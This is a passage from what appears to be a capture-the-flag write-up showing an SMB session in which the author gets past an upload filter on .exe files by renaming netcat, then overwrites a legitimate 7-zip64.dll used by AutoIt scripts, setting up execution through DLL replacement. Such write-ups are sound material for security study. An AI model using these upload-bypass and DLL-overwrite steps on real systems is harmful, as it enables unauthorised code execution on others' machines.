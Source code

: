 

    smb: \> put nc64.exe 
    NT_STATUS_ACCESS_DENIED opening remote file \nc64.exe
    smb: \> put nc64.exe nc64.txt
    putting file nc64.exe as \nc64.txt (40.1 kb/s) (average 40.1 kb/s)
    smb: \> ls
      .                                   D        0  Wed Nov  9 22:57:42 2022
      ..                                DHS        0  Tue Apr 19 12:45:15 2022
      AutoIt3_x64.exe                     A  1013928  Thu Mar 15 13:17:44 2018
      Bginfo64.exe                        A  4601208  Thu Sep 19 20:15:38 2019
      nc64.txt                            A    45272  Wed Nov  9 22:57:42 2022
      scripts                             D        0  Mon Mar 21 21:22:59 2022

                    10328063 blocks of size 4096. 2255724 blocks available



Clearly it's blocking uploading of files that have the `exe` extension.

### Execution via DLL Overwrite

#### Show Possible

Interestingly, it isn't blocking the upload of DLLs:



    smb: \> put nc64.exe nc64.dll
    putting file nc64.exe as \nc64.dll (87.9 kb/s) (average 55.1 kb/s)



I can even overwrite `7-zip64.dll`:



    smb: \scripts\> ls 7-zip64.dll
      7-zip64.dll                         A  1076736  Mon Mar 21 13:43:58 2022
    smb: \scripts\> put nc64.exe 7-zip64.dll
    putting file nc64.exe as \scripts\7-zip64.dll (87.2 kb/s) (average 62.8 kb/s)
    smb: \scripts\> ls 7-zip64.dll 
      7-zip64.dll                         A    45272  Wed Nov  9 23:02:34 2022



#### Show Use

Before I go creating a DLL, I'll take a look at some of these AutoIt
scripts to see if they use the dll. On downloading some and looking,
there's references to it in `7Zip.au3`:
